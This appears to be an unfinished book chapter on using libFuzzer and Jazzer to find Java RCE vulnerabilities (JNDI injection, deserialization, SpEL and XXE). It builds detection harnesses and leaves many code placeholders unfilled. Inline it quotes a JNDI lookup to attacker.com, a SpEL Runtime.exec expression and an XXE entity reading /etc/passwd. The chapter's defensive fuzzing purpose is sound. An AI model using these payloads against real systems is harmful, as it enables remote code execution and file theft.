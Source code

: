 == Fix Input Processing Failures Through RCE Discovery [30 pages]

*Tool Requirements:* libFuzzer, Jazzer, OpenJDK, Maven/Gradle, Docker

*Learning Objectives:*

* Master libFuzzer workflow through concrete Java RCE vulnerability discovery
* Build detection harnesses for four major enterprise vulnerability classes
* Integrate comprehensive security monitoring with systematic input testing
* Understand libFuzzer as the foundation for language-specific fuzzing variants

*Vulnerability Classes Covered:*

* JNDI injection vulnerabilities in logging frameworks are causing remote code execution
* JSON deserialization failures leading to arbitrary object instantiation and RCE
* Expression language injection enabling direct code execution through templates
* XML external entity processing allowing file system access and RCE escalation

=== libFuzzer Fundamentals: Process-Internal Security Testing

libFuzzer executes inside your application's process rather than forking new processes for each test case, eliminating startup overhead while enabling high-throughput security testing. You compile your target function with libFuzzer instrumentation, and it systematically calls that function with different inputs while tracking code coverage. When libFuzzer discovers inputs that crash your code or reach new execution paths, it automatically preserves them for further exploration.

This execution model proves particularly effective for discovering security vulnerabilities in string processing logic. Most enterprise RCE vulnerabilities occur during input parsing - JSON deserialization, XML processing, template evaluation, and log message interpolation. libFuzzer's ability to execute millions of test cases per second makes it practical to discover the complex input combinations that trigger these vulnerabilities.

The libFuzzer approach forms the conceptual foundation for Jazzer (Java), Atheris (Python), and Jazzer.js (JavaScript). Master these concepts through Java implementation, and you'll understand how to apply systematic vulnerability discovery across your entire technology stack.

==== When libFuzzer Excels at Security Testing

libFuzzer provides advantages over file-based fuzzing approaches when testing library functions that process structured input formats. Applications that parse JSON, XML, log messages, or template expressions benefit from libFuzzer's function-level testing approach because it focuses exploration on the specific parsing logic where vulnerabilities commonly occur.

String processing vulnerabilities often require specific input combinations to trigger reliably. A JNDI injection might need precise syntax within a logging message. A deserialization vulnerability might require a specific JSON structure with particular type annotations. libFuzzer's coverage-guided exploration systematically discovers these combinations rather than relying on random generation.

Security-focused fuzzing requires high execution throughput because many vulnerabilities have low trigger probability. Finding a SpEL injection payload might require testing millions of template combinations. libFuzzer's persistent execution mode enables this systematic exploration without the performance overhead of process creation.

==== Coverage-Guided Security Discovery

libFuzzer tracks which code paths each input explores and prioritizes inputs that reach previously unexplored areas. This coverage feedback proves crucial for security testing because vulnerabilities often hide in error handling paths, edge case processing, or rarely-executed validation logic.

When fuzzing JSON deserialization, random JSON typically exercises only the primary parsing paths. Coverage-guided exploration systematically discovers the type annotation processing, error recovery mechanisms, and polymorphic object creation logic where deserialization vulnerabilities commonly occur.

[PLACEHOLDER: CODE libfuzzer_java_setup. Basic libFuzzer integration with Jazzer showing compilation, execution, and coverage tracking for Java security testing. Include the harness structure and build configuration. Medium value.]

The systematic nature of coverage-guided exploration enables the discovery of vulnerability combinations that manual testing rarely encounters. Security vulnerabilities often result from unexpected interactions between input validation, error handling, and business logic processing.

==== Building Your First Security Detection Harness

Before diving into specific vulnerability patterns, understanding the basic harness structure enables effective security testing across all vulnerability types. A security-focused libFuzzer harness differs from standard fuzzing harnesses because it must detect exploitation attempts rather than just crashes.

The fundamental security harness pattern includes input generation, target function invocation, and exploitation detection. Unlike functional testing harnesses that call target functions, security harnesses must monitor system interactions that indicate successful attacks.

[,java]
----
public class BasicSecurityHarness {
    @FuzzTest
    void detectSecurityViolations(FuzzedDataProvider data) {
        String input = data.consumeString(1000);

        try (SecurityMonitor monitor = new SecurityMonitor()) {
            // Call target function with fuzzer input
            targetFunction.processInput(input);

            // Check for security violations
            if (monitor.detectedViolation()) {
                throw new SecurityException("Attack detected");
            }
        } catch (ProcessingException e) {
            // Expected parsing errors are acceptable
        }
    }
}
----

Security monitoring must capture exploitation indicators without generating false positives from normal application behavior. This requires understanding baseline application activity and distinguishing legitimate operations from attack patterns.

Common monitoring patterns include network connection tracking, process creation detection, file system access monitoring, and JVM state inspection. Each vulnerability type requires appropriate monitoring combinations to detect successful exploitation reliably.

===== Common Harness Development Mistakes

Overly restrictive input validation in harnesses prevents the discovery of edge cases where vulnerabilities commonly occur. Security harnesses should allow malformed input to reach target processing logic while monitoring for exploitation rather than rejecting suspicious input prematurely.

Insufficient state cleanup between fuzzing iterations causes false positives when previous test cases affect subsequent monitoring. Security harnesses must reset the monitoring state completely between iterations to ensure detection accuracy.

Monitoring overhead significantly reduces fuzzing throughput, which in turn limits vulnerability discovery effectiveness. Security harnesses require balancing comprehensive monitoring against execution performance to maintain practical fuzzing rates.

===== Debugging Harness Effectiveness

When security harnesses fail to discover known vulnerabilities, systematic debugging identifies common problems. First, verify that the fuzzer input reaches vulnerable code paths by adding logging or breakpoints in target functions.

Monitor system activity during manual exploitation attempts to confirm that monitoring systems detect attack indicators correctly. If manual attacks don't trigger monitoring alerts, the detection logic requires adjustment before fuzzing can succeed.

Examine fuzzing statistics to ensure adequate input diversity and coverage growth. Security vulnerabilities often require specific input combinations that systematic exploration must discover through sufficient iteration diversity.

=== Enterprise RCE Discovery: Four Critical Vulnerability Patterns

Enterprise Java applications face security threats from four primary RCE vulnerability patterns, each targeting different input processing mechanisms. Understanding these patterns enables systematic security testing that covers the attack vectors responsible for major security incidents in production environments.

These vulnerability classes share common characteristics that make them suitable for libFuzzer discovery: string-based input boundaries, complex parsing logic, and clear exploitation indicators. Building detection harnesses for each pattern demonstrates transferable security testing methodology while providing immediate protection against real threats.

==== JNDI Injection in Logging Frameworks

Logging frameworks that perform string interpolation create opportunities for JNDI injection when user-controlled input reaches log message processing. The vulnerability occurs when logging implementations interpret special syntax within log messages as instructions for external resource loading.

[PLACEHOLDER: CODE vulnerable_logging_component. Logging framework implementation with JNDI interpolation vulnerability similar to log4j patterns. Include string processing logic and external lookup mechanisms. High value.]

JNDI injection exploits string interpolation features intended for configuration flexibility. When logging frameworks encounter patterns like `${jndi:ldap://attacker.com/payload}` within log messages, they interpret this as an instruction to perform external lookups, potentially loading malicious code from attacker-controlled servers.

The attack surface includes any code path where external input reaches logging statements. Web application request processing, error handling, and audit logging commonly introduce user-controlled content into log messages without adequate sanitization.

===== Building JNDI Injection Detection Harnesses

Effective JNDI injection discovery requires harnesses that monitor for external network connections during log message processing. The harness provides fuzzer-generated input to logging functions while detecting unauthorized network activity that indicates successful injection.

[PLACEHOLDER: CODE jndi_injection_harness. Complete libFuzzer harness for discovering JNDI injection vulnerabilities, including network monitoring, input generation, and detection logic. High value.]

Network monitoring during fuzzing enables immediate detection of JNDI lookup attempts. When the fuzzer generates input that triggers external DNS queries or LDAP connections, the monitoring system captures this as evidence of an injection vulnerability.

Input generation for JNDI injection discovery benefits from understanding common injection patterns. While random string generation occasionally produces injection syntax, structured generation that incorporates known JNDI patterns increases discovery efficiency.

PLACEHOLDER: CODE jndi_payload_generation. Structured input generation for JNDI injection discovery, including common patterns, protocol variations, and evasion techniques. Medium value.

==== JSON Deserialization Vulnerabilities

JSON deserialization vulnerabilities occur when parsing libraries automatically instantiate objects based on type information embedded within JSON input. This functionality, intended to support polymorphic object serialization, enables attackers to specify arbitrary classes for instantiation during parsing.

[PLACEHOLDER: CODE vulnerable_json_processor. JSON deserialization component with polymorphic type handling vulnerability patterns similar to Jackson default typing issues. Include object instantiation and type resolution logic. High value.]

The vulnerability mechanism relies on type annotation features that allow JSON to specify which Java class should be instantiated during parsing. When enabled, these features interpret JSON like `{"@class": "dangerous.Class", "property": "value"}` as instructions to create instances of the specified class.

Exploitation typically involves identifying classes available in the application classpath that perform dangerous operations during construction or property setting. Common targets include classes that execute commands, make network connections, or access the file system during object initialization.

===== Deserialization RCE Detection Through Process Monitoring

Deserialization RCE detection requires monitoring for unexpected process creation or system calls during JSON parsing. Since exploitation typically involves executing operating system commands, process monitoring provides reliable detection of successful attacks.

[PLACEHOLDER: CODE jackson_rce_harness. libFuzzer harness for detecting JSON deserialization RCE, including process monitoring, structured JSON generation, and gadget chain detection. High value.]

Process monitoring during deserialization fuzzing captures command execution attempts that indicate successful RCE exploitation. The monitoring system tracks process creation, file system access, and network connections that occur during JSON parsing but outside normal application behavior.

Structured JSON generation for deserialization testing requires understanding both valid JSON syntax and dangerous class patterns. The fuzzer must generate syntactically correct JSON while systematically exploring type annotations that might trigger object instantiation vulnerabilities.

==== Spring Expression Language Template Injection

SpEL injection vulnerabilities occur when applications evaluate user-controlled input as Spring Expression Language expressions. This commonly happens in template processing, dynamic query construction, and configuration parameter evaluation, where user input reaches SpEL parsing logic.

[PLACEHOLDER: CODE vulnerable_spel_processor. Spring Expression Language processing component with template injection vulnerability, including expression evaluation and context handling. High value.]

SpEL provides powerful expression evaluation capabilities, including access to Java classes, method invocation, and system property manipulation. When user input is evaluated as SpEL expressions, attackers can leverage this functionality to execute arbitrary code through expressions like `#{T(Runtime).getRuntime().exec('commands')}`.

Template processing represents a common attack vector because applications often allow user customization of output formatting through template expressions. Without proper input validation, these templates become vehicles for code injection.

===== SpEL Injection Detection Through Execution Monitoring

SpEL injection detection requires comprehensive monitoring for code execution, file system access, and system property modifications during expression evaluation. Since SpEL provides broad access to JVM functionality, successful exploitation can manifest through various system interactions.

[PLACEHOLDER: CODE spel_injection_harness. libFuzzer harness for discovering SpEL injection vulnerabilities, including execution monitoring, template generation, and expression evaluation detection. High value.]

Template generation for SpEL injection discovery benefits from understanding expression syntax and available functionality. The fuzzer should systematically explore method invocation patterns, class access mechanisms, and property manipulation expressions that could lead to code execution.

==== XML External Entity Processing Vulnerabilities

XXE vulnerabilities occur when XML parsers process external entity declarations within document input. This feature, intended to support document modularity and external resource inclusion, enables attackers to access local files or trigger network requests through malicious entity definitions.

[PLACEHOLDER: CODE vulnerable_xml_processor. XML document processing component with external entity vulnerability, including entity resolution and document parsing logic. High value.]

XML external entity processing interprets document type definitions that reference external resources, when XML contains declarations like `<!ENTITY xxe SYSTEM "file:///etc/passwd">`, vulnerable parsers attempt to resolve these references, potentially exposing file system contents or enabling network-based attacks.

The attack surface includes any XML processing functionality that accepts external input, including document parsing, configuration loading, and data import operations. Many XML parsers enable external entity processing by default, creating widespread vulnerability potential.

===== XXE Detection Through File System Monitoring

XXE detection requires monitoring for unauthorized file system access and network connections during XML parsing. Since exploitation typically involves reading local files or making external requests, file system and network monitoring provide reliable attack detection.

[PLACEHOLDER: CODE xxe_detection_harness. libFuzzer harness for discovering XXE vulnerabilities, including file system monitoring, XML generation, and entity resolution detection. High value.]

XML generation for XXE discovery requires understanding entity declaration syntax and standard attack patterns. The fuzzer should systematically explore external entity references, parameter entities, and nested entity structures that might trigger vulnerability exploitation.

==== Troubleshooting Security Detection Failures

When security harnesses fail to discover vulnerabilities that manual testing confirms exist, systematic troubleshooting identifies and resolves common problems. Security fuzzing failures typically result from inadequate monitoring, insufficient input diversity, or harness implementation issues.

===== Diagnosing Monitoring Problems

Monitoring systems must detect the specific exploitation indicators that each vulnerability type produces. JNDI injection requires network monitoring for external lookups, while deserialization RCE needs process monitoring for command execution. Verify monitoring effectiveness by manually triggering known exploits and confirming detection.

Network monitoring failures often result from DNS caching, connection pooling, or asynchronous lookup mechanisms that occur outside the monitoring window. Extend monitoring duration and capture all network activity during fuzzing iterations to ensure detection coverage.

Process monitoring must distinguish between legitimate subprocess creation and exploitation attempts. Many Java applications spawn processes during regular operation, requiring filtering to identify unauthorized execution that indicates successful RCE.

===== Improving Input Generation Effectiveness

Random input generation rarely produces the structured syntax required for complex vulnerability exploitation. JNDI injection requires specific interpolation patterns, while XXE needs valid XML with malicious entity declarations. Structured generation dramatically improves discovery rates.

Input constraints that prevent malformed content from reaching vulnerable code paths reduce fuzzing effectiveness. Security harnesses should allow syntactically invalid input to exercise error handling paths where vulnerabilities commonly occur.

Coverage analysis reveals whether the fuzzer input reaches vulnerable code sections. When coverage remains low in security-critical parsing logic, examine input validation that might prevent fuzzer-generated content from exercising target functionality.

===== Performance Optimization for Security Fuzzing

Security monitoring overhead can reduce fuzzing throughput below practical levels for vulnerability discovery. Monitor fuzzing statistics to ensure execution rates remain sufficient for systematic exploration of input spaces.

Excessive monitoring granularity creates performance bottlenecks without proportional security benefit. Focus monitoring on high-level exploitation indicators rather than detailed system call tracking to maintain fuzzing efficiency.

Persistent mode implementation requires careful resource cleanup to prevent monitoring interference between fuzzing iterations. Reset all monitoring state explicitly between test cases to maintain detection accuracy while preserving performance benefits.

==== Adapting Security Testing to Your Applications

The four vulnerability patterns demonstrate a general methodology that applies to diverse application architectures and input processing scenarios. Successful adaptation requires understanding your application's specific input boundaries, processing mechanisms, and exploitation characteristics.

===== Identifying Security-Critical Input Boundaries

Application security testing begins with mapping input boundaries where external data reaches processing logic. Web applications typically have HTTP request parameters, headers, and body content as primary boundaries. Desktop applications might process configuration files, command-line arguments, or document imports.

Input boundary analysis focuses on data that external users control and that reaches parsing or evaluation logic. User profile data that gets stored and later processed represents an indirect input boundary that security testing should cover.

Consider data flow paths that transform input through multiple processing stages. XML configuration that gets parsed, validated, and then evaluated as expressions represents multiple potential vulnerability points requiring comprehensive testing.

===== Customizing Monitoring for Application Context

Each application requires monitoring strategies appropriate to its runtime environment and exploitation risks. Web applications might need HTTP response monitoring to detect injection attacks, while desktop applications require file system monitoring for unauthorized access attempts.

Cloud-native applications running in containers require monitoring strategies that account for container boundaries and orchestration platforms. Network monitoring must distinguish between legitimate service communication and exploitation attempts.

Database-driven applications require query monitoring to detect SQL injection, in addition to standard process and network monitoring. ORM frameworks might require monitoring for unusual object instantiation patterns during deserialization attacks.

===== Scaling Detection Patterns to New Vulnerability Types

When encountering unfamiliar vulnerability types, apply the systematic approach demonstrated across the four patterns: understand the exploitation mechanism, identify detection indicators, implement appropriate monitoring, and generate inputs that explore the vulnerability space.

Buffer overflow vulnerabilities in native libraries require memory corruption detection rather than process monitoring. API rate limiting bypasses need request pattern analysis rather than system call monitoring. Each vulnerability type has characteristic exploitation indicators that enable systematic detection.

Template engines beyond SpEL follow similar injection patterns but with different syntax and evaluation contexts. The monitoring approach remains consistent while input generation adapts to specific template syntax and available functionality.

===== Integrating Security Testing with Development Workflows

Security testing integration depends on application development patterns and team preferences. Test-driven development teams can incorporate security harnesses alongside functional tests, running both during development cycles.

Continuous integration environments require balancing security testing comprehensiveness against build performance constraints. Short-running security tests can execute on every commit, while comprehensive campaigns run during off-hours or release preparation.

Local development security testing provides immediate feedback during coding but requires careful resource management to avoid impacting development productivity. Lightweight monitoring and focused input generation enable practical security testing during active development.

=== Connecting the Four Vulnerability Patterns

Each vulnerability pattern demonstrates the same fundamental libFuzzer methodology applied to different input processing scenarios. JNDI injection, JSON deserialization, SpEL evaluation, and XXE processing all follow identical discovery approaches: identify input boundaries, build appropriate monitoring, generate structured inputs, and detect exploitation indicators.

This consistency enables systematic security testing across diverse application components. When encountering new input processing logic, apply the same methodology: understand the parsing mechanism, identify potential exploitation paths, implement detection monitoring, and generate inputs that systematically explore the vulnerability space.

=== Chapter Summary: Systematic Security Vulnerability Discovery

You have built practical expertise in discovering enterprise Java RCE vulnerabilities through systematic libFuzzer testing. The four vulnerability patterns covered - JNDI injection, JSON deserialization, SpEL injection, and XXE processing - represent the primary attack vectors affecting production Java applications.

*Hands-On Security Testing Skills:*

The detection harnesses you've implemented provide immediate security value for Java development while demonstrating transferable methodology. The monitoring patterns for process creation, network access, and file system interaction apply across programming languages and vulnerability types.

Structured input generation techniques enable efficient discovery of complex vulnerability patterns that random testing rarely encounters. Understanding how to generate JNDI injection payloads, polymorphic JSON, SpEL expressions, and XXE entity declarations provides practical security testing capabilities.

*libFuzzer Mastery Through Concrete Application:*

You've learned libFuzzer fundamentals through hands-on vulnerability discovery rather than abstract concepts. This practical approach builds confidence in coverage-guided fuzzing while delivering immediately functional security testing skills.

The harness development patterns you've mastered - input boundary identification, appropriate monitoring, and structured generation - transfer directly to testing other vulnerability types and input processing scenarios.

*Foundation for Multi-Language Security Testing:*

The libFuzzer concepts and monitoring patterns transfer directly to Atheris for Python web applications, Jazzer.js for JavaScript services, and other language-specific fuzzing implementations. The security vulnerability patterns occur across programming languages with similar exploitation characteristics.

Understanding coverage-guided security testing through Java implementation prepares you for systematic vulnerability discovery across your entire technology stack. The same principles of input boundary identification, structured generation, and execution monitoring apply regardless of implementation language.

*Systematic Methodology for Novel Vulnerabilities:*

The detection framework you've built provides a methodology for discovering vulnerability classes beyond the four patterns covered. When new attack techniques emerge, the same approach applies: identify input boundaries, understand exploitation indicators, implement appropriate monitoring, and generate structured inputs that explore the vulnerability space.

Security testing through libFuzzer transforms vulnerability discovery from reactive investigation to proactive verification. Instead of learning about security issues through incident response, you systematically verify that your input processing logic handles malicious input safely.

Your security testing expertise now includes both the technical implementation skills and the analytical methodology needed to discover critical vulnerabilities before they affect production systems. This proactive security verification capability protects the attack patterns that have historically caused significant security incidents in Java applications.
